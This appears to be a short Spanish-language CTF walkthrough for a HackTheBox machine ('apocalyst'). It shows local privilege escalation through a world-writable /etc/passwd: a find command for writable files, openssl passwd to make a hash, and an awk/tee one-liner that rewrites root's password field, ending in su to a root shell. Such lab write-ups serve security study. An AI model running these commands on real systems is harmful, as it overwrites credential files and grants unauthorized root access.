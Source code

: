 

# IDENTIFICAR SI PODEMOS EDITARLO
### ENUMERAR LOS PERMISOS SOBRE EL ARCHIVO
```shell
find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"
37330      4 -rw-rw-rw-   1 root     root         1637 Jul 26  2017 /etc/passwd
```


# MODIFICACIÓN DEL ARCHIVO
### CREAR CONTRASEÑA PARA EL USUARIO ROOT
```shell
www-data@apocalyst:/$ openssl passwd
Password: admin
zXMknIfn598us
```

### MODIFICAR CONTRASEÑA PARA EL USUARIO ROOT
```shell
awk -F: 'BEGIN{OFS=":"} $1=="root"{$2="zXMknIfn598us"} 1' /etc/passwd | tee /etc/passwd
www-data@apocalyst:/var/www/html/apocalyst.htb$ su root
root@apocalyst:/var/www/html/apocalyst.htb#
```